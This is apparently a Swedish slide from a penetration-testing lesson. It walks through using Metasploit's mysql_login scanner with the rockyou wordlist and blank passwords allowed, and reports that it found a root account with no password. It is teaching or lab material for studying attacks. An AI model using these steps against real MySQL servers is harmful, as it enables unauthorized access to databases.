

# Kör attack!
use auxiliary/scanner/mysql/mysql_login
Options som är viktiga här: PASS_FILE, RHOSTS, BLANK_PASSWORDS
Set PASS_FILE: usr/share/wordlists/rockyou.txt
Set BLANK_PASSWORDS: true
Run!
Hittar root och inget lösenord!